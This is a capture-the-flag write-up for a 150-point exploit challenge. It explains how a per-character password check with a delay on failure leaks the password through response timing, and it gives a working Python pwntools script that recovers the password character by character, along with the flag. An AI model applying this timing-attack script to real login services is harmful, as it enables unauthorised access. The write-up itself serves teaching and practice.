

## ikatepi

**Category:** Exploit

**Points:** 150

**Solves:** 0

### Write-up

the name of the challenge hinted to the side-channel attack, which is an attack based on information gained from the implementation of a computer system. looking at the source code provided, we can confirm that we can abuse the "anti-bruteforce" implementation by using a timing attack



we can see that the program will loop through every character of the password and match it to our input. if both of them do match, it will print the error immediately while adding a 3 second delay when it is not. thus, we can abuse this by defining a timeout value when accepting data from the program. if we receive data below 3 second, we can assume that the character provided for that offset is correct. below is the implementation of the presumption in python

```python
from pwn import *
context.log_level = 'error'

passw = ''

try:
    while True:
        for i in xrange(33, 127):
            r = remote('127.0.0.1', 11111)
            r.recvuntil('Password: ')
            print "trying", passw + chr(i)
            r.sendline(passw + chr(i))
            ret = r.recvline(timeout=0.001)
            if ret:
                if '(x_x)/' not in ret:
                    raise Exception(ret)
                passw += chr(i)
                break
            r.close()
except Exception as e:
    print e
```

since i was testing in my own local machine, the timeout was quite fast ;p modify it to your own liking. also you can see the script in action below

[](https://asciinema.org/a/l44MiFKV4ifKzkags73J14kFb)

**Flag** : ` s1d3CH4nn3lFTW@kictm2018`